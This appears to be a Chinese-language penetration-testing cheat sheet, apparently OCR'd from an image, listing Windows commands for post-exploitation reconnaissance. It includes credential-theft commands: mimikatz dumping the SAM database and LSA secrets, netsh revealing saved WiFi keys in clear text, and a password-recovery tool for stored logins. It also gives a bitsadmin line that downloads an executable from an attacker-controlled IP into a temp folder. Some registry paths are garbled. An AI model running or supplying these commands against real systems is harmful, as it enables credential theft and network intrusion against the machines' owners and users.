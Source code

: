 > net sessoin 查看远程连接 session (需要管理权限)
>
> net share   共享目录
>
> cmdkey /l  查看保存登陆凭证
>
> echo %logonserver%  查看登陆域
>
> spn –l administrator spn 记录
>
> set  环境变量
>
> dsquery server - 查找目录中的 AD DC/LDS 实例
>
> dsquery user - 查找目录中的用户
>
> dsquery computer 查询所有计算机名称 windows 2003
>
> dir /s *.exe 查找指定目录下及子目录下没隐藏文件
>
> arp -a

发现远程登录密码等密码 netpass.exe  下载地址：

> https://www.nirsoft.net/utils/network_password_recovery.html获取 window vpn 密码：

> mimikatz.exe privilege::debug token::elevate lsadump::sam lsadump::secrets exit  wifi 密码：

> netsh wlan show profile 	查处 wifi 名
>
> netsh wlan show profile WiFi-name key=clear 获取对应 wifi 的密码ie 代理

> reg query "HKEY_USERSS-1-5-21-1563011143-1171140764-1273336227-500SoftwareMicrosoftWindowsCurrentVersionInternet 
>
> Settings" /v ProxyServer
>
> reg query "HKEY_CURRENT_USERSoftwareMicrosoftWindowsCurrentVersionInternet Settings"pac 代理

> reg query "HKEY_USERSS-1-5-21-1563011143-1171140764-1273336227-500SoftwareMicrosoftWindowsCurrentVersionInternet 
>
> Settings" /v AutoConfigURL  //引子 t0stmailpowershell-nishang

> https://github.com/samratashok/nishang

### 其他常用命令

> ping    icmp 连通性
>
> nslookup www.baidu.com vps-ip dns 连通性
>
> dig @vps-ip www.baidu.com
>
> curl vps:8080  http 连通性
>
> tracert
>
> bitsadmin /transfer n http://ip/xx.exe C:\windows\temp\x.exe一种上传文件 >= 2008
>
> fuser -nv tcp 80 查看端口 pid
>
> rdesktop -u username ip linux 连接 win 远程桌面 (有可能不成功)
>
> where file win 查找文件是否存在 
>